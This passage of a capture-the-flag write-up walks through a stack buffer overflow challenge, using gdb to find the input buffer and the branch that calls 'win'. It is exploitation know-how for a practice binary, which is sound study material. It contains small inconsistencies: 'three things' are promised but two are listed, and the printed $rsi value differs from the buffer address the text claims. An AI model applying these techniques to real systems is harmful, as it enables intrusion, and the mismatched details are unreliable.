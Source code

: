 ## level 1.1

> Overflow a buffer on the stack to set the right conditions to obtain the flag!

This time we are not given any information by the program.

In order to create a payload we need to know three things:

* [ ] Location of buffer.
* [ ] Location of win variable.

You could use [IDA](https://hex-rays.com/ida-pro/) or [Ghidra](https://ghidra-sre.org/), for this task, but we will use good old `gdb`.

```
gef➤  run

; -- snip --
Send your payload (up to 10 bytes)!
```

Once we are prompted to enter our payload we can press `CTRL C` and then enter our payload.

```
gef➤  finish
Run till exit from #0  0x00007f7c7813dfd2 in __GI___libc_read (fd=0x0, buf=0x7ffc615eeba0, nbytes=0xa) at ../sysdeps/unix/sysv/linux/read.c:26
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```

The program has now read our payload.

The `read` syscall takes the following arguments:

```c
ssize_t read(int fd, void buf[.count], size_t count);
```

Let's check the value of $rsi.

```
gef➤  p $rsi
$2 = 0x7fff4cbdb280
```

Now we know that the buffer starts at `0x7ffc615eeba0`.

Let's disassemble the program:

```
gef➤  disassemble
Dump of assembler code for function challenge:

; -- snip --
0x000055cd9f2cae9c <+283>:   mov    rax,QWORD PTR [rbp-0x58]
0x000055cd9f2caea0 <+287>:   mov    eax,DWORD PTR [rax]
0x000055cd9f2caea2 <+289>:   test   eax,eax
0x000055cd9f2caea4 <+291>:   je     0x55cd9f2caeb0 <challenge+303>
0x000055cd9f2caea6 <+293>:   mov    eax,0x0
0x000055cd9f2caeab <+298>:   call   0x55cd9f2cac84 <win>
; -- snip --
```
